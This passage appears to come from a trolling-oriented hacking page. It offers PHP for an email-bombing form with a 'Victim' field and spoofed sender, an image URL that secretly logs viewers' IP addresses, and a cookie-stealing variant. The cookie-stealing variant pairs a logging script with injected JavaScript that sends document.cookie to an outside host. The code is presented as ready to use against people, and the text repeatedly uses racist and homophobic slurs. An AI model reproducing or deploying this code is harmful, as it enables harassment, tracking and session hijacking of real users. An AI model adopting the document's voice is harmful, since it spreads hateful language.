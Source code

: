                 mail($_POST["email"], $iloled,$rofl,head());
             } // (the second for loop) defines one cycle
             echo "Done $i loops of $spam<br>"; //we're done
          }
       echo "Complete."; 
       }
       else {
     /* if the form isn't filled out show it. also, mess around with this  part any way you like. */
    ?>
    <form method="post" action="">
       Victim: <input type="text" size="28" name="email"><br>
       Message title: <input type="text" size="28"
     name="message"><br>
       Sender (spoof it): <input type="text" size="28"
     name="sender"><br>
       Message body: <textarea name="body" cols="28"
     rows="5"></textarea><br>
       Emails per cycle (default 10): <input type="text" size="28"
     name="spams" value="10"><br>
       Cycles (default 10):<input type="text" size="28"
     name="cycles" value="10"><br>
    <input type="submit" name="submit" value="Click for lulz">
    </form>
    <?php 
    }
    ?>

### Image bugs  ###

Pretty fucking simple, really. You insert the following into an e-mail or something: 
c
Then in iplulz.php on your server (or whatever you call it), put this code: 
_PROTIP: Make a directory on your server called niggerimage.png or any image name, then save the code as index.php in the directory._
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_SERVER['REMOTE_ADDR'] . " fell for it lol\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
User gets the image, you get their IP added to a list. EVERYONE WINS
Also, can steel cookies in dat way:
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_GET['d0ngz'] . " nigger\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
And in email or whatevastuff put
    <script>
    document.write("<img src='http://niggerz.com/fag.php?d0ngz="+ document.cookie+"'><br>')
    </script>


